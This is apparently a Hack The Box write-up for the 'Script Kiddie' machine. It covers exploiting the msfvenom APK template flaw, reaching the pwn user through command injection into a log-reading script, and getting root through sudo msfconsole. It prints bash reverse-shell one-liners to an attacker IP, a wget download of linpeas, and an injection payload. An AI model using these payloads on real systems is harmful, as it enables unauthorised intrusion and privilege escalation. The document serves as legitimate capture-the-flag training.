

# Writeup for [Script Kiddie](https://www.hackthebox.eu/home/machines/profile/314) from [Hack The Box](https://www.hackthebox.eu)

## Table of Contents
<!-- MarkdownTOC -->

- [Machine Information](#machine-information)
- [Information Gathering and Enumeration](#information-gathering-and-enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
	- [Kid user to Pwn user](#kid-user-to-pwn-user)
	- [Pwn user to Root Shell](#pwn-user-to-root-shell)

<!-- /MarkdownTOC -->


## Machine Information
* OS 			: Linux
* Difficulty 	: Easy
* Points 		: 20
* Released 		: 6 February 2021
* IP Address 	: 10.10.10.226


## Information Gathering and Enumeration

As usual, we're going to start off with a simple nmap scan to see what services are running on the box.

```bash
nmap -sCV -oN nmap/initial 10.10.10.226
```

Looking at the nmap scan, we only see 2 ports open. `SSH` on 22 and `HTTP` on 5000.


Navigating to the webpage we see a webapp that lets us use some basic tools. Looks like there is `nmap`, `msfvenom`, and `searchsploit`.


Since we can provide user input, it might be a good idea to try command injection. I spent about an hour trying different payloads like using `;ls` , `$(ls)`, ``` `ls` ```, `' ls`, and all other variants but none of them seem to work.

After that I tried looking for exploits for those particular software. And I found that `msfvenom` had an exploit on searchsploit.


Considering that this exploit was disclosed on `October 29 2020` and this box was released in `February 6 2021`, we can assume that this exploit might be our foothold to the box.

## Exploitation

Let's mirror that file and change the payload to a reverse shell that will execute on the box.

```bash
bash -c "bash -i >& /dev/tcp/10.10.16.2/9001 0>&1"'
```

Also make sure that you change the `b64encode` function to `b32encode` function, because base64 encoded strings can break `keytool` program used in the script.


Let's run this script and get our apk file.


After getting the apk file, let's setup a listener on our local box with netcat. ( You might need to use `nc` instead of `ncat`)

```bash
ncat -lnvp 9001
```
Upload the file, and we should get a connection back. Make sure to set the OS to `android`.


We get a shell as `kid` on the box.


## Privilege Escalation

### Kid user to Pwn user
As always, we should start with the super low hanging fruit like `sudo` and `SUID` binaries. 

Let's check for `sudo` privileges with `sudo -l`. It prompts us with a password that we don't know, so we're just going to skip `sudo` for now.

Next, we check for `SUID` binaries with the find command.

```bash
find / -perm -4000 2>/dev/null
```

Looking through the output, we don't see anything that stands out. So let's upload [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite.git)

Setup a simple python http server inside the directory containing linpeas. I put it in my `opt` directory.

```
python3 -m http.server
```

And from the victim machine, let's download this script in a more isolated directory.

```bash
cd /dev/shm && wget http://10.10.16.2:8000/linpeas.sh && chmod +x linpeas.sh
```

Running `linpeas`, we get a bunch of output. We can see that there is a `pwn` user, and we see a `scanlosers.sh` script.


Reading the script, we found a couple things. It looks like the script is reading from a file that we as the `kid` user can control. We also see that the script is simply concatenating the `ip` variable that we can potentially abuse to get command injection.


We see this `hackers` file that when we write to it, it instantly gets cleared out. The last line of the `scanlosers.sh` script is responsible for this. Now we know that this `scanlosers.sh` is continously running.


Let's try to reverse engineer how this script works in our local box, and craft the payload. We should also modify it a little so it's more convenient to debug

```bash
#!/bin/bash

log=$1 # Set the log variable to the first argument given.

cat $log | cut -d' ' -f3- | sort -u | while read ip; do
        echo $ip
done

```


The important part of this script is that `cut` command. It will use a space character to delimit the strings, and print the third entry. So if we do a payload like this, we should get `myteam`.

```bash
test test myteam
```



Now that we got that out of the way, let's try to craft a payload that will execute commands.

Going back the original script, let's try to copy the `nmap` command that it's doing to our script. So our script will look like this.

```bash
#!/bin/bash

log=$1

cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

```

Reading the `nmap` command on the script, it looks like that there are 2 places where `ip` is placed. It's important that we make sure it doesn't error out when crafting the payload, so we're going to start the payload with `;` that will denote to chain the command, and the `#` will comment the rest of the code.


```bash
;bash -c 'id' #
```

```bash
sh -c "nmap --top-ports 10 -oN recon/;bash -c 'id'.nmap ;bash -c 'id' 2>&1 >/dev/null"
```

The above command will not comment the rest of the code, and will try to execute `id.nmap` and then excute `id` from the **second injection** that will be redirected to `/dev/null`. But if we add the `#` then the command will look like this.

```bash
sh -c "nmap --top-ports 10 -oN recon/;bash -c 'id' #.nmap ;bash -c 'id' # 2>&1 >/dev/null"
```

Notice that `;bash -c 'id'` on the **first injection** will execute and all the commands after will be commented out. That way, we can see the output of our command.


Now we can just add this payload to the box. Remember that the log file being used is in `/home/kid/logs/hackers`. So we just need to inject the payload there. We should also change the payload to give us a reverse shell.

Considering that we can't see the output of the command when running the exploit on the box ( since we're not executing it ), injecting the payload with or without `#` should still get us a reverse shell.

```bash
test test ;bash -c 'bash -i >& /dev/tcp/10.10.16.2/9001 0>&1' #
```

As usual, let's setup a listener on our local box with `netcat`. ( Use `nc` if you don't have `ncat`)

```bash
ncat -lnvp 9001
```

Then let's echo the payload to the file. We should get a reverse shell back as `pwn`.


### Pwn user to Root Shell

As usual, we're going to start with some low hanging fruit. Running `sudo -l` we see that we can run `msfconsole` with root privileges without a password.


We just need to run this command and we are effectively root on the box through metasploit.

```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```

```bash
msf6 > wc -c /root/root.txt && hostname
[*] exec: wc -c /root/root.txt && hostname

33 /root/root.txt
scriptkiddie
msf6 > 
```

